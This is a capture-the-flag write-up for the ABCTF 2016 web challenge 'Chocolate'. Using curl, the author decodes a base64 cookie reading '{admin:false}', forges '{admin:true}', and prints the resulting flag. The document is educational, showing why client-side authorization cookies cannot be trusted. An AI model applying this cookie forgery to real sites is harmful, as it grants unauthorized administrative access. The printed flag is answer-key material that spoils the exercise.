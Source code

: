 _[<<< Return to ABCTF 2016 tasks and writeups](/abctf-2016)_
# Chocolate (Web Exploitation, 50 points)

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web3/)

The website says that we are not admin, let's see why.

![Screenshot from the website yrmyzscnvh.abctf.xyz/web3](chocolate.png)

```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```
